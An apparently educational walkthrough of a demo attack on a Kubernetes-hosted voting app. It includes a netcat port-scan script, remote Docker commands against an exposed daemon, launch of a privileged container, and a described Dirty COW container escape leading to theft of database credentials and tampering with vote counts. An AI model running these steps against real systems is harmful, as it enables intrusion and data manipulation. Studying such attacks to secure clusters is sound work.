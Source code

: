 # Understand Kubernetes Attack Surface Through a Demo Attack

## History
- In the elections between CATS and DOGS, Dogs have been winning elections for quite some time.
- The cats team decides to hack the systems and announce Cats have won the election by a massive majority.

Data that is available publicly are:
- Domains:
  - www.vote.com
  - www.result.com
- Both the domains respond to ping
  - This indicates the domains are hosted in the same server/infrastructure:
```
ping votes.com
pint results.com
```
    
![image](https://github.com/user-attachments/assets/68fd033e-03b2-4ba7-804b-136cce98081e)

### When performing the port-scan it reveals the ports which are exposed/vulnerable
```
cat port-scan.sh

#!/bin/bash

# Check if an IP address is provided
if [ -z "$1" ]; then
    echo "Usage: $0 <host>"
    exit 1
fi

HOST=$1

# List of common ports to scan
declare -A PORTS
PORTS=(
    [21]="ftp"
    [22]="ssh"
    [23]="telnet"
    [25]="smtp"
    [53]="dns"
    [80]="http"
    [110]="pop3"
    [111]="rpcbind"
    [135]="msrpc"
    [139]="netbios-ssn"
    [143]="imap"
    [443]="https"
    [445]="ms-ds"
    [993]="imaps"
    [995]="pop3s"
    [1723]="pptp"
    [2375]="docker"
    [3306]="mysql"
    [3389]="ms-wbt"
    [5900]="vnc"
)

echo "Scanning host $HOST..."

# Loop through the ports and check their status
for PORT in "${!PORTS[@]}"; do
    SERVICE=${PORTS[$PORT]}
    echo -n "Scanning port $PORT for $SERVICE ... "

    # Use nc (netcat) to check if the port is open
    nc -z -w 1 $HOST $PORT &> /dev/null
    if [ $? -eq 0 ]; then
        echo "Success"
    else
        echo "Fail"
    fi
done

# sh port-scan.sh  104.21.63.124
```

The scan results shows the docker port is exposed.
- This points to the fact that the security is disabled for docker service running in the infra.
![image](https://github.com/user-attachments/assets/b92314d6-ceea-476f-88bc-e42112319bcc)

### To verify the access ran the docker ps command:

```
# docker -H www.vote.com ps -a
```
- This lists the containers running within the host.
![image](https://github.com/user-attachments/assets/fd766a0b-5509-4a4c-8a2b-3ac3f130ce23)

- The docker version is also available:
```
# docker -H www.vote.com version
```
![image](https://github.com/user-attachments/assets/8fac0187-67cf-4e2b-8447-afdb43d64a96)


### Now the hacker creates a privileged container to act as a Jump-server
```
# docker -H  www.vote.com  run  --privileged  -it  ubuntu bash
root@new-container:/# 
```
- Then installs the curl/wget packages to run the custom scripts to attack the env

![image](https://github.com/user-attachments/assets/716028be-caa8-4a65-8a88-f5cff43131af)

- Now the attacker downloads the Dirty-Cow exploit script:
- And runs it to escape out of the container onto the underlying Host:

![image](https://github.com/user-attachments/assets/7fda2ccc-f622-4d5b-b101-6e1a4224bd9d)

### Runs the script to access the underlying Host terminal

![image](https://github.com/user-attachments/assets/76a1c2f9-ee72-4d7a-9c70-05748c3ec9d4)

![image](https://github.com/user-attachments/assets/da9e7fa5-6d67-4e59-880a-d4f5448bebe2)

- At this point, the attacker can infiltrate into the rest of the network 

![image](https://github.com/user-attachments/assets/69f2753c-9d5f-45ae-a403-84aec33dc382)

- In the docker ps output shows that the containers include K8s - Kubernetes dashboard containers:

![image](https://github.com/user-attachments/assets/39fcd5f5-dcff-4565-bf79-9d0043e6f785)

- To identify the port associated with the K8s dashboard - the attacker can check the IPTables Nat chain
- The port exposed is 30080.

![image](https://github.com/user-attachments/assets/1f9084d7-817a-423a-9076-0f24f5703e8b)

- The K8s dashboard is available in the URL 104.21.63.124:30080
- The dashboard gives information about the entire cluster.

![image](https://github.com/user-attachments/assets/976871b8-c1d9-4483-9420-bd154a8f5b84)

- The results are saved in the db database, which contains the password details as environment variables:

![image](https://github.com/user-attachments/assets/d5e81651-b823-4af7-8cf5-644227fae712)

- Now the attacker identifies the database container and execs into it:

![image](https://github.com/user-attachments/assets/05f63812-7559-42ad-9dd5-2dd0c52a0694)

- Once in, the attacker uses the Username and password to connect to the DB
![image](https://github.com/user-attachments/assets/e73a972a-00c1-4cfa-bbee-303e12f46a02)

- Now she updates the votes of Doga and cats using the script

![image](https://github.com/user-attachments/assets/0eeb8517-fb75-407c-8d54-c341b589fb01)

- Now the results are successfully manipulated:

![image](https://github.com/user-attachments/assets/68f2c1db-b2ed-4898-a41d-46b66965e5ad)
